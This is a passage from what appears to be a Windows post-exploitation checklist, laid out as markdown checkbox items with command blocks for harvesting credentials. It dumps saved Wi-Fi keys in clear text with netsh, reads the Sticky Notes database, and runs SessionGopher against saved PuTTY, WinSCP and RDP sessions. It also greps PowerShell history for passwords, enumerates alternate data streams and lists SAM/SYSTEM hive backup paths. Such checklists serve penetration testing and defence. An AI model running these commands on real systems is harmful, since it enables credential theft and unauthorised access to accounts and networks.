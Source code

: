      cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
    ```
*   [ ] &#x20;Creds from sticky notes app

    ```
     C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
    ```
*   [ ] &#x20;Creds stored in services

    ```
     # SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
     # https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
     Import-Module path\to\SessionGopher.ps1;
     Invoke-SessionGopher -AllDomain -o
     Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
    ```
*   [ ] &#x20;Creds from Powershell History

    ```
     type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
     type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
     type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
     cat (Get-PSReadlineOption).HistorySavePath
     cat (Get-PSReadlineOption).HistorySavePath | sls passw
    ```
*   [ ] &#x20;Creds from [alternate data stream](https://owasp.org/www-community/attacks/Windows\_alternate\_data\_stream)

    ```
     Get-Item -path <filename> -Stream *
     Get-Content -path <filename> -Stream <keyword>
    ```
*   [ ] &#x20;SAM & SYSTEM bak

    ```
     # Usually %SYSTEMROOT% = C:\Windows
     %SYSTEMROOT%\repair\SAM
     %SYSTEMROOT%\System32\config\RegBack\SAM
     %SYSTEMROOT%\System32\config\SAM
     %SYSTEMROOT%\repair\system
     %SYSTEMROOT%\System32\config\SYSTEM
     %SYSTEMROOT%\System32\config\RegBack\system
    ```
*   [ ] &#x20;Cloud credentials
